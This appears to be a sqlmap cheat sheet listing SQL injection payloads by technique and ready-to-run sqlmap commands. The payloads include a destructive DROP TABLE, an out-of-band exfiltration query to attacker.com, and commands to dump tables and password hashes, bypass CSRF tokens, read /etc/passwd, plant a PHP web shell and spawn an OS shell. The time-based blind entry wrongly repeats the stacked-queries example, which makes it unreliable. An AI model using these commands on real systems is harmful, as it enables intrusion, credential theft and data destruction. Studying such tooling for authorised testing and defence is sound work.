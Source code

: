 # Supported DBMes

| 1                  | 2                    | 3                  | 4                      |
| ------------------ | -------------------- | ------------------ | ---------------------- |
| `MySQL`            | `Oracle`             | `PostgreSQL`       | `Microsoft SQL Server` |
| `SQLite`           | `IBM DB2`            | `Microsoft Access` | `Firebird`             |
| `Sybase`           | `SAP MaxDB`          | `Informix`         | `MariaDB`              |
| `HSQLDB`           | `CockroachDB`        | `TiDB`             | `MemSQL`               |
| `H2`               | `MonetDB`            | `Apache Derby`     | `Amazon Redshift`      |
| `Vertica`, `Mckoi` | `Presto`             | `Altibase`         | `MimerSQL`             |
| `CrateDB`          | `Greenplum`          | `Drizzle`          | `Apache Ignite`        |
| `Cubrid`           | `InterSystems Cache` | `IRIS`             | `eXtremeDB`            |
| `FrontBase`        |                      |                    |                        |

# Injection Techniques

The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
Example of **Boolean-based blind SQL Injection**:
```sql
AND 1=1
```

- `E`: Error-based
Example of **Error-based SQL Injection**:
```sql
AND GTID_SUBSET(@@version,0)
```

- `U`: Union query-based
Example of **UNION query-based SQL Injection**:
```sql
UNION ALL SELECT 1,@@version,3
```

- `S`: Stacked queries
Example of **Stacked Queries**:
```sql
; DROP TABLE users
```

- `T`: Time-based blind
Example of **Stacked Queries**:
```sql
; DROP TABLE users
```

- `Q`: Inline queries
Example of **Inline Queries**:
```sql
SELECT (SELECT @@version) from
```

Example of **Out-of-band SQL Injection**:
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

# Commands

Run SQLMap without asking for user input
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

SQLMap with POST request 
```shell
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

POST request specifying an injection point with an asterisk 
```shell
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

Passing an HTTP request file to SQLMap
```shell
sqlmap -r req.txt
```

Specifying a cookie header
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Specifying a PUT request
```shell
sqlmap -u www.target.com --data='id=1' --method PUT
```

Store traffic to an output file
```shell
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

Specify verbosity level 
```shell
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

Specifying a prefix or suffix
```shell
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -" 
```

Specifying the level and risk
```shell
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Basic DB enumeration
```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

Table enumeration
```shell
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

Table/row enumeration
```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

Conditional enumeration
```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

Database schema enumeration
```shell
sqlmap -u "http://www.example.com/?id=1" --schema
```

Searching for data
```shell
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

Password enumeration and cracking
```shell
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

Anti-CSRF token bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

List all tamper scripts
```shell
sqlmap --list-tampers
```

Check for DBA privileges
```shell
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

Reading a local file
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

Writing a file
```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Spawning an OS shell
```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
